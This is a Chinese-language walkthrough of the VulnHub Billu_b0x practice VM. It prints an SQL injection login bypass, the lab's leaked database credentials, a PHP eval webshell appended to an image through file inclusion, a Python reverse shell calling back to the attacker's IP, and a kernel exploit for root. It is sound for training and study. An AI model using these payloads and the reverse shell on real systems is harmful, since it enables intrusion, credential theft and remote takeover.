[https://www.vulnhub.com/entry/billu-b0x,188/](https://www.vulnhub.com/entry/billu-b0x,188/)

`index.php`提示进行sql注入,但使用万能密码进行初步尝试,返回`Try Again`,推测闭合方式不正确或者存在过滤

`dirsearch`扫描得到的主要路径

```
http://172.20.2.129:80/add.php
http://172.20.2.129:80/c.php
http://172.20.2.129:80/index.php
http://172.20.2.129:80/show.php
http://172.20.2.129:80/test.php
http://172.20.2.129:80/head.php
http://172.20.2.129:80/in
http://172.20.2.129/phpmy
```

`http://172.20.2.129/phpmy`跳转到`phpmyadmin`的登录页面

打开`test.php`提示要向其传递`file`参数,推测其可能为文件包含或文件下载,尝试GET传参失败,使用POST传参成功

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20211104162735.png)

`index.php`关键内容如下

```php
$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));
$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
```

传入`un= or 1=1#&ps=\`

此时语句为`select * from auth where pass='\' and uname=' or 1=1#'`,pass的内容为`\' and uname=`

成功登录

`in`打开显示为`phpinfo`的内容,`add.php`打开显示存在上传点,但查看源代码后可知其不存在后端

`show.php`

```php
<?php
include('c.php');

if(isset($_POST['continue']))
{
	$run='select * from users ';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {
echo "<table width=90% ><tr><td>ID</td><td>User</td><td>Address</td><td>Image</td></tr>";
 while($row = mysqli_fetch_assoc($result)) 
   {
	   echo '<tr><td>'.$row['id'].'</td><td>'.htmlspecialchars ($row['name'],ENT_COMPAT).'</td><td>'.htmlspecialchars ($row['address'],ENT_COMPAT).'</td><td><img src="uploaded_images/'.htmlspecialchars ($row['image'],ENT_COMPAT).'" height=90px width=100px></td></tr>';
}
   echo "</table>";
}
}

?>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041631621.png)

`c.php`中含有数据库连接密码`$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");`

尝试利用该密码进行登录和ssh连接均失败,使用该密码成功登录`phpmyadmin`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041633211.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041634143.png)

使用查询得到的用户名和密码成功登录网站

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041635215.png)

`panel.php`的内容

```php
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
		header('Location: index.php', true, 302);
		exit();
	
}



echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
if(isset($_POST['lg']))
{
	unset($_SESSION['logged']);
	unset($_SESSION['admin']);
	header('Location: index.php', true, 302);
}
echo '<hr><br>';

echo '<form method=post>

<select name=load>
    <option value="show">Show Users</option>
	<option value="add">Add User</option>
</select> 

 &nbsp<input type=submit name=continue value="continue"></form><br><br>';
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}


if(isset($_POST['upload']))
{
	
	$name=mysqli_real_escape_string($conn,$_POST['name']);
	$address=mysqli_real_escape_string($conn,$_POST['address']);
	$id=mysqli_real_escape_string($conn,$_POST['id']);
	
	if(!empty($_FILES['image']['name']))
	{
		$iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
	$r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
	$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
				{
					if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
							 {
							  echo "Uploaded successfully ";
							  $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
							 mysqli_query($conn, $update);
							  
							}
				}
			else
			{
				echo "<br>i told you dear, only png,jpg and gif file are allowed";
			}
	}
	else
	{
		echo "<br>only png,jpg and gif file are allowed";
		
	}
}


}

?>
```

`include($dir.'/'.$_POST['load']);`存在文件包含,上传一张带有webshell的图片即可

`echo "<?php file_put_contents('uploaded_images/shell.php','<?php eval(\$_POST[a]);?>')?>" >> jack.jpg`

在`uploaded_images/shell.php`中得到一个webshell

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041648724.png)

存在python2的环境,利用python2反弹shell

```py
import socket
import subprocess
import os
ip="172.20.2.128"
port=9999
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((ip,port));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041701182.png)

有时候在使用`nc -lvvp`时会报错`nc: getnameinfo: Temporary failure in name resolution`

此时应该添加`n`参数,即`nc -lvnp`

使用`CVE-2015-1328`进行提权

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041723806.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041725713.png)